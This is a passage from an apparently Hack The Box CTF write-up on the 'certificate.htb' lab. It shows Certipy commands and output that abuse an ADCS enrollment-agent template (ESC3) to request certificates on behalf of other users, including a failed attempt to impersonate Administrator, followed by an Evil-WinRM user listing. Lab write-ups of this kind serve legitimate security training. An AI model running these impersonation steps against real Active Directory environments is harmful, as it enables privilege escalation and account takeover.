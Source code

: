 ```bash
        Full Control Principals         : CERTIFICATE.HTB\Domain Admins
                                          CERTIFICATE.HTB\Enterprise Admins
        Write Owner Principals          : CERTIFICATE.HTB\Domain Admins
                                          CERTIFICATE.HTB\Enterprise Admins
        Write Dacl Principals           : CERTIFICATE.HTB\Domain Admins
                                          CERTIFICATE.HTB\Enterprise Admins
        Write Property Enroll           : CERTIFICATE.HTB\Domain Admins
                                          CERTIFICATE.HTB\Domain Users
                                          CERTIFICATE.HTB\Enterprise Admins
    [+] User Enrollable Principals      : CERTIFICATE.HTB\Domain Users
    [*] Remarks
      ESC3 Target Template              : Template can be targeted as part of ESC3 exploitation. This is not a vulnerability by itself. See the wiki for more details. Template requires a signature with the Certificate Request Agent application policy.
# ...  
```

Obtain the **Enrollment Agent Certificate**
```bash
┌──(kali@kali)-[~/certificate.htb]
└─$ sync-ad certipy-ad req -u 'lion.sk@certificate.htb' -p '<PASSWORD_REDACTED>' \
    -dc-ip '10.10.11.71' -target 'certificate.htb' \
    -ca 'Certificate-LTD-CA' -template 'Delegated-CRA'
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Request ID is 21
[*] Successfully requested certificate
[*] Got certificate with UPN 'Lion.SK@certificate.htb'
[*] Certificate object SID is 'S-1-5-21-515537669-4223687196-3249690583-1115'
[*] Saving certificate and private key to 'lion.sk.pfx'
[*] Wrote certificate and private key to 'lion.sk.pfx'
```

Now we'll use it to **request a certificate on behalf of another user.** To escalate privileges we'll try to impersonate the `Administrator` account
```bash
┌──(kali@kali)-[~/certificate.htb]
└─$ sync-ad certipy-ad req -u 'lion.sk@corp.local' -p '<PASSWORD_REDACTED>' \
    -dc-ip '10.10.11.71' -target 'certificate.htb' \
    -ca 'Certificate-LTD-CA' -template 'SignedUser' \
    -pfx 'lion.sk.pfx' -on-behalf-of 'CERTIFICATE\Administrator'
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Request ID is 22
[-] Got error while requesting certificate: code: 0x80094812 - CERTSRV_E_SUBJECT_EMAIL_REQUIRED - The email name is unavailable and cannot be added to the Subject or Subject Alternate name.
Would you like to save the private key? (y/N): n
[-] Failed to request certificate
```

Hmm this doesn't work so let's impersonate another user
```powershell
*Evil-WinRM* PS C:\Users> net users

User accounts for \\

-------------------------------------------------------------------------------
Administrator            akeder.kh                Alex.D
Aya.W                    Eva.F                    Guest
John.C                   Kai.X                    kara.m
karol.s                  krbtgt                   Lion.SK
Maya.K                   Nya.S                    Ryan.K
saad.m                   Sara.B                   xamppuser
```